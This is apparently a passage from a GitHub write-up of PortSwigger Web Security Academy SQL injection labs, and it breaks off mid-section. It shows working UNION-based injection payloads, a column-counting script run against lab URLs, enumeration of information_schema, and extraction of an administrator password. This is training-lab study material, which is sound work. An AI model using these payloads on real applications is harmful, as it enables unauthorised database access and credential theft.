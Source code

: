1. Using our script (`columns_amount.py`) to determine amount of columns:
    
    ```bash
    python3 columns_amount.py --url https://0a5b005e038c2686836637ae00cd00c9.web-security-academy.net/filter?category=Accessories --param category --amount 5

    ```

2. Checking Microsoft documentation on determing DB version:
    - https://learn.microsoft.com/en-us/troubleshoot/sql/releases/find-my-sql-version

3. Preparing the payload:

    ```sql
    ' UNION SELECT @@version, null-- -
    ```

4. Sending the payload and completing the lab.


# Lab: SQL injection attack, listing the database contents on non-Oracle databases

1. Determining amount of columns and type of DB:

    ``` bash
    ┌──(hue1337㉿kali)-[~/…/GitHub/Portswigger-Academy/SQL_Injection/Scripts]
    └─$ python3 columns_amount.py --url https://0a5e00b003f6855980da8aa50037006c.web-security-academy.net/ --param category --amount 4
    https://0a5e00b003f6855980da8aa50037006c.web-security-academy.net/filter?category=%27%20order%20by%2010--%20-
    [+] Amount of columns: 2 
    [+] Postgre 
                                
    ```

2. From the PostgreSQL Docs we find out how to list the tables:

    ```sql
    select * from information_schema.tables
    ```

3. We can see table `users_xljros`. We gonna extract the password using following payloads:

    ```sql
    ' union select column_name,null from information_schema.columns where table_name='users_xljros'-- -

    ' union select password_wymahi, null from users_xljros where username_nbyctx='administrator'-- -
    ```

4. The password is: `gihs1spbm0jq86ghgc07`

# Lab: SQL injection attack, listing the database contents on Oracle

1. Determining amount of columns:
